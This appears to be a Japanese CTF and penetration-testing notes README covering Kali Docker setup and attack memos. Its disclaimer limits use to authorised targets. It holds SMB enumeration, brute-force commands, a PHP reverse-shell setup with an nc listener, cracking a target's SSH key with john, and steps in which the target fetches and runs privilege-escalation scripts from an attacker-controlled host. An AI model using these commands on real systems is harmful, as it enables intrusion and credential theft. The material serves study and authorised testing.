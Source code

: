 //////////////////////////////
// Settings
//////////////////////////////
:idprefix:
:idseparator: -
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]

//////////////////////////////
// Contents
//////////////////////////////
= CTF

[CAUTION]
====
KtokKawuは、自衛や検証/CTFのため、ハッキング技術を学習しています。 +
自分の管理外の端末や機器(一般に公開されているWebサイトや各種サーバやWi-Fiスポット、他人の端末や機器等)に対し、 +
非合法な目的で本リポジトリで公開しているツール類やテクニックを使用しないこと。 +
必ず自己責任の元、ローカル環境やCTF等で攻撃が許可されたサイトに対してのみ使用すること。 +
KtokKawuは、本リポジトリを利用する他のユーザや企業、団体等が起こした全ての事象に関して一切責任を負いません。
====

== Kali Dockerコンテナの作成

=== 初回の手順

[PowerShell/CMD]
----
# Kali Linuxの公式イメージDL
docker pull kalilinux/kali-rolling
docker images
# Dockerfileを使用する場合
docker image build -t kalilinux/kali-rolling:latest C:\path\to\Dockerfile
# コンテナ(初回)起動
docker run -it --name <C-NAME> kalilinux/kali-rolling
docker exec -it <CID> /bin/bash
# リポジトリの登録
echo "deb http://http.kali.org/kali kali-rolling main contrib non-free" > /etc/apt/sources.list \
&& echo "deb-src http://http.kali.org/kali kali-rolling main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-last-snapshot main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-experimental main contrib non-free" >> /etc/apt/sources.list
# Kali Linuxのパッケージインストール
apt -y update && apt -y upgrade
apt install -y kali-linux-full
# 他ツール、ライブラリ
apt install -y bash-completion build-essential bzip2 colordiff colortail curl exiftool gdb git iputils-ping iputils-tracepath jq libjpeg-dev libssl-dev libxml2-dev libxslt1-dev ltrace mariadb-client net-tools nodejs npm postgresql python-dev rlwrap smbclient steghide strace telnet tor vim wget yarnpkg zip zlib1g-dev
# apt install -y bash-completion build-essential bzip2 colordiff colortail libjpeg-dev libssl-dev nikto nmblookup pip python-pybloomfiltermmap rpcclient
# Setup gdb-peda
git clone https://github.com/longld/peda.git ~/peda \
&& echo "source ~/peda/peda.py" >> ~/.gdbinit
# Setup nmap CVE script
# Option Usage: --script=vulscan/vulscan.nse www.example.com
git clone https://github.com/scipag/vulscan ~/scipag_vulscan \
&& ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
# Install and configure AutoRecon
mkdir /tools \
&& git clone --depth 1 https://github.com/Tib3rius/AutoRecon.git /tools/AutoRecon \
&& cd /tools/AutoRecon \
&& pip3 install -r requirements.txt \
&& ln -s /tools/AutoRecon/src/autorecon/autorecon.py /usr/local/bin/autorecon
# Get some scripts
git clone https://github.com/pentestmonkey/php-reverse-shell ~/prh \
&& git clone https://github.com/lucyoa/kernel-exploits ~/exploits/ksploits \
&& git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite ~/exploits/peass \
&& git clone https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack ~/exploits/unixploits \
&& git clone https://github.com/danielmiessler/SecLists /usr/share/seclists \
&& git clone https://github.com/andresriancho/w3af.git /opt/w3af \
/opt/w3af/w3af_console ; \
bash /tmp/w3af_dependency_install.sh ; \
echo 'export PATH=/opt/w3af:$PATH' >> /etc/profile
# Get Password list
mkdir ~/pwd-list \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/john.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/cain.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/conficker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/twitter-banned.txt.bz2 \
# Kaliイメージの「/usr/share/wordlists/rockyou.txt」の方が新しい
# && wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpbb.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/myspace.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hotmail.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/faithwriters.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/elitehacker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hak5.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/alypaa.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-pastebay.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porn-unknown.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/tuscl.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-phished.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/carders.cc.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/singles.org.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/english.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/german.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/us_cities.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porno.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/honeynet.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/file-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/fuzzing-strings.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpmyadmin-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-extensions.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-mutations.txt.bz2 \
&& bzip2 -d ~/pwd-list/*.bz2
# コンテナ保存
docker stop <CID>
docker rename <CID> <C-NAME>
docker commit <CID> <REPO-NAME>:<TAG-NAME>
# コンテナ起動(ホスト側へポートフォワード)
docker images
docker run --name <C-NAME> -itd -p <HOST-PORT>:<C-PORT> /bin/bash <REPO-NAME>:<TAG-NAME>
docker ps -a
# 不要なコンテナ、イメージ削除
docker rm -f <CID>
docker rmi -f <IID>
----

=== 2回目以降のコンテナ利用

[PowerShell/CMD]
----
# コンテナ接続
docker exec -it <C-NAME> /bin/bash
# コンテナ開始/停止/再起動
docker stop/start/restart <C-NAME>
# IP確認
docker inspect --format '{{ .NetworkSettings.IPAddress }}' <C-NAME>
----
  
=== 注意事項

* Windows Firewallの受信規則のうち、パブリックの「com.docker.backend」が有効だと、 +
リバースシェルを張る時などのインバウンド通信が失敗してしまう。Linuxで構築する場合も同様。

== ハッキング技術メモ

=== ポートとOSSバージョンの確認

.SMBの例
----
https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b
nmap -sC -p 139,445 -sV [TargetIP]
----

=== CVEのチェック

----
git clone https://github.com/scipag/vulscan scipag_vulscan
ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
nmap -sV -p [TargetPort] --script=vulscan/vulscan.nse www.example.com [TargetIP]
----

=== ログイン施行

★そのうち書く

=== Steganography

----
exiftool nothing.jpg
binwalk -e nothing.jpg
foremost nothing.jpg
steghide extract -sf nothing.jpg -p [password]
steghide --info nothing.jpg
----

=== SMB Attack

==== Tools

[cols="1,5"]
|===
|ツール名 |説明

|nmblookup
|NetBIOS名の検索に使用されるNetBIOS over TCP/IPクライアントを収集

|smbclient
|SMB共有ディレクトリにアクセスするftpのようなクライアント

|nmap
|ポートスキャナ with スクリプト

|rpcclient
|クライアント側のMS-RPC機能を実行するツール

|enum4linux
|さまざまなsmb関数を列挙

|wireshark
|「ntlmssp.ntlmv2_response」でフィルタリングしてNTLMv2のトラフィックからsmbの情報を取得可能
|===

==== チェックリスト

* ホスト名の確認
+
----
# -A オプション：look up by IP address
nmblookup -A [ip]
----
+
* 共有フォルダの一覧
+
----
# ホスト上の共有フォルダ一覧とアクセス権を表示
smbmap -H [ip/hostname] -R
# SMBからファイルを取得
smbmap -H [ip/hostname] -R --download '.\Anonymous\staff.txt'
# 資格情報を取得後に再実行し、新しいアクセス権を表示
smbmap -H [ip] -d [domain] -u [user] -p [password]
# nullログインをチェックするため、"exit"は現れる可能性のある全PW要求を処理する
# -L オプション：指定されたホストの共有のリストを取得します
echo exit | smbclient -L \\\\[ip]
# --script smb-enum-shares：特定のsmb列挙スクリプト
# -p 139,445：smbポートの指定
nmap --script smb-enum-shares -p 139,445 [ip]
----
+
* NULLセッションでの確認
+
----
# 資格情報無しで何ができるか確認
smbmap -H [ip/hostname]
# 本コマンドの後、RPCコマンドを入力してみる
# -U ""：NULLセッション
# -N オプション：PWD無し
rpcclient -U "" -N [ip]
# 共有フォルダへの接続試行、空PWDでも行ける可能性有り。
smbclient \\\\[ip]\\[share name]
----
+
* 脆弱性の確認
+
----
# --script smb-vuln*：全smb脆弱性スキャンスクリプトを実行
nmap --script smb-vuln* -p 139,445 [ip]
----
+
* SMB全体のスキャン
+
----
enum4linux -a [ip]
----
+
上記内容の確認で注目する内容は下記。
+
. nmblookup同様の出力
. nullセッションのチェック
. 共有フォルダのリスト
. ドメイン情報
. パスワードポリシー
. RIDサイクリング出力
* 手操作確認 +
smbのバージョンを取得するスクリプト
+
.smbver.sh
----
#!/bin/sh
# Author: rewardone
# Description:
#   Requires root or enough permissions to use tcpdump
#   Will listen for the first 7 packets of a null login and grab the SMB Version
# Notes:
#   Will sometimes not capture or will print multiple lines.
#   May need to run a second time for success.
# Usage:
#   smbver.sh [IP] (port) [Samba]
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'aUnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
----
+
上記スクリプトの結果が疑わしい時は、PCAPファイルから、smbバージョンを確認
+
----
# 例：Unix Samba 2.2.3a
check pcap
----

=== ディレクトリ検査

----
gobuster -e -u http://[TargetIP]/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -s 200,301,302,403,404 -e -x html,php,txt -l -o ./result_gobuster.txt
----

=== Bruteforce Attack

.Bruteforce tool list
[cols="2, 7a"]
|===
|ツール名 |サポートプロトコル

|Hydra
|TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc, RSH, +
RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ, +
SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP, Subversion/SVN, +
Firebird, LDAP2, Cisco AAA, Web form

|Medusa
|AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3, +
PostgreSQL, REXEC, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2, Subversion (SVN), +
Telnet, VMware Authentication Daemon (vmauthd), VNC, Generic Wrapper, Web Form

|Ncrack
|RDP, SSH, http(s), SMB, pop3(s), VNC, FTP, telnet
|===

==== hydra

* 効率的には、およそssh(2/s) < ftp(6/s) < http-basic(100/s)の速さ
* パスワードスプレー攻撃も可能 +
-l：uid固定、-L：uidリスト、-p：pwd固定、-P：pwdリスト

----
hydra -l [uname] \
      -P ~/pwd-list/[pwdtext] \
      [TargetIP] \
      [TargetProtocol] \
      -V \                                                          # PWDマイニング中にUID、PWDを表示
      -f \                                                          # 指定したPWDが見つかったら停止
# Web form
#     http-post-form \
#     “/path/to/login:uid=XXXXX&pwd=XXXXX&Login=Login:Login Failed” # "[Login Page]:[Request Body]:[Error Message]"
----

==== ncrack

* RDPサービスに関してはhydraより早いらしい

----
ncrack -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -T5 [TargetIP] \
       -p [TargetServicePort]
----

==== meduza

* 一番遅い

----
medusa -h [TargetIP] \
       -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -M [TragetService]
# Web Form
#      -M web-form \
#      -m FORM:"path/to/login" \
#      -m DENY-SIGNAL:"Example Access Denied" \
#      -m FORM-DATA:"post?uid=XXXXX&pwd=XXXXX&Login=Login"
----

=== Penetration

==== PHPリバースシェル

===== Scripts

https://github.com/pentestmonkey/php-reverse-shell

===== 手順

----
vim php-reverse-shell.php # change "$ip" value to [MyHostIP]
rlwrap nc -lvnp 1234
# Uploading PRS file & Web Access
----

==== RSAプライベートキーのクラック

----
scp [TargetUser]@[TargetIP]:/home/[TargetUser2]/.ssh/id_rsa /root/
/usr/share/john/ssh2john.py ./id_rsa > crack
john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt crack
john crack --show
chmod 600 id_rsa
----

=== 権限昇格

==== Scripts

. https://github.com/lucyoa/kernel-exploits
. https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
. https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
. https://github.com/rebootuser/LinEnum

==== 手順

* ターゲット側でスクリプトを実行する際は、 +
使っているユーザ権限で自由にファイル授受できるディレクトリに移動するとよい。
+
.権限の緩いディレクトリの例
----
/var/tmp
/dev/shm
/var/lock
/run/lock
----

==== LinPEAS

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python -m SimpleHTTPServer [MyHostPort]

# ターゲット側 
cd /var/tmp
wget http://[MyHostIP]:[MyHostPort]/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
----

===== LinEnum

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python -m SimpleHTTPServer [MyHostPort]

# ターゲット側
cd /var/tmp
which wget
wget [MyHostIP]:[MyHostPort]/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
----
